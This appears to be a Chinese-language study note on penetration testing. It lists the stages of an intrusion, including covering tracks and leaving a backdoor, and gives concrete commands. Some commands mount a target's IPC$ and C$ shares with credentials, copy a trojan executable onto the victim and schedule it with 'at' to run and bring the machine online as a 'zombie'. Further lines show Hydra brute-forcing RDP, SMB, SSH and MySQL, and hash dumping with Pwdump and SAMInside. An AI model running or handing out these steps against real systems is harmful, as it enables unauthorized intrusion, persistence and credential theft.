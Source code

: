 # 渗透测试

0、授权

1、信息收集

nslookup whois

2、扫描漏洞

namp = ip范围 端口 80（IIS，apache,什么网站）

scanpot

高级扫描：如IIS漏洞2003-IIS6.0 2008-IIS7.0

扫描网站漏洞

3、漏洞利用

4、提权（shell（命令行cmd）环境、桌面环境、最高权限）

5、毁尸灭迹

6、留后门

7、渗透测试报告

 

手工测试端口号开放：

telnet IP 地址 测试端口

**445漏洞利用之一IPC$**：

1、scanport 扫描445端口

2、进行暴力破解：NTscan

3、

 

```
net use f: \\10.1.1.2\ipc$ 密码 /user:用户



=================================================



net use f: \\10.1.1.2\share 密码 /user:用户



net use * /del



net use * /del



net use f: \\10.1.1.2\c$ 密码 /user:用户



=================================================
```

4、制作木马

5、植入木马（留后门）

 

```
copy d:\heihei.exe \\10.1.1.2\c$
```

6、设计计划任务自动执行木马：

```
net time \\10.1,1.2



at \\10.1.1.2 11:11 "c:\heihei.exe"
```

7、等待肉鸡上线

# 扫描技术、暴力破解工具

# 扫描技术

主机探测与端口扫描

```
21           FTP



22           SSH



23           Telnet



25           SMTP



80           HTTP



443          HTTPS



1433         SQL Server



1521         Oracle



3306         MySQL



3389        RDP
```

 

Nmap-扫描之王

重要的常用参数

 

```
-sP        扫描主机是否在线（ping扫描）



-p         指定端口范围



-sV        服务版本探测



-O(大写)         启用操作系统探测



-A         全面扫描



-oN        保存txt
```

 

```
Nmap -sP 10.1.1.1/24   扫描10.1.1.0 整个网段



Nmap -p 21,23-25,3389, 10.1.1.1



Nmap -p 21,23 10.1.1.1 -sV  扫描21，23的服务版本



Nmap -A 10.1.1.1    全面扫描



Nmap -O 10.1.1.1 扫描目标系统版本



Nmap -p 21,23 10.1.1.1 -oN d:\result.txt 
```

# Hydra 远程暴力破解

```
Hydra.exe -l a -p 123 10.1.1.1 telnet   



Hydra.exe -l a -P d:\password.txt 10.1.1.1 rdp



Hydra.exe -l a -P d:\password.txt 10.1.1.1 smb



Hydra.exe -l a -P d:\password.txt 10.1.1.1 ftp



Hydra.exe -l a -P d:\password.txt 10.1.1.1 ssh



Hydra.exe -l a -P d:\password.txt 10.1.1.1 mysql



 



Hydra.exe -L d:\user.txt -P d:\password.txt 10.1.1.1 mysql
```

5次shift破解系统密码

利用PE破解系统密码

远程爆破

nmap

NTscan

Hydra

本地破解：

Getpass 从内存中提取密码（win10之前的系统）

本地暴力破解：

Pwdump 提取sam中的hash值

![img](14、渗透测试/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI1MjIwNA==,size_16,color_FFFFFF,t_70.png)

手工将hash值存储到hash.txt中

使用saminside软件进行暴力破解

![img](14、渗透测试/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI1MjIwNA==,size_16,color_FFFFFF,t_70-20201109143645470.png)

 

